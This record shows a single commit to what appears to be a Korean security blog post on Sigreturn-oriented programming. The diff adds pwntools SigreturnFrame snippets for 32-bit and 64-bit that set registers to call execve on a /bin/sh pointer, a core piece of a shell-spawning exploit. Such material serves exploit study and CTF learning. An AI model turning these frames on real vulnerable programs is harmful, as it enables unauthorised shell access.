

Before and after one commit to kangsecu/kangsecu.github.io, a Jekyll site: the page built from _posts/2020-05-30-Sigreturn-oriented-programming.md, in a window 1280 px wide. Shown: the part 2956-4867 px from the top of the page at 80% size, without its empty margins (317-1280 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Update 2020-05-30-Sigreturn-oriented-programming.md

````diff
--- a/_posts/2020-05-30-Sigreturn-oriented-programming.md
+++ b/_posts/2020-05-30-Sigreturn-oriented-programming.md
@@ -133,6 +133,23 @@ p.interactive()
 
 아니 난 왜 대체 익스가 안되나 계속 생각해봤는데 아직도 모르겠다. 왜 계속 다른 레지스터들은 변조가 되는데 eip랑 ecx는 변조가 안될까...  결국 그냥 다시 코딩해서 해결했다. 왜 처음엔 안된걸까
 
+pwntool에서는 다음과 같이 편리하게 사용할 수 있다.
+```
+#32bit
+frame = SigreturnFrame(kernel='i386')
+frame.eax = 0xb
+frame.ebx = binsh
+frame.esp = syscall
+frame.eip = syscall
+
+#64bit
+frame = SigreturnFrame(arch="amd64")
+frame.rax = constants.SYS_execve
+frame.rdi = binsh
+frame.rsp = syscall
+frame.rip = syscall
+```
+
 ++++++
 드디어 왜 안된지 알아낸 것 같다.
 The full **vsyscall** features. This config option can be found before v4.15. This includes *Ubuntu 18.04.2*. However, *Ubuntu 18.04* does **not** use this configuration.
````
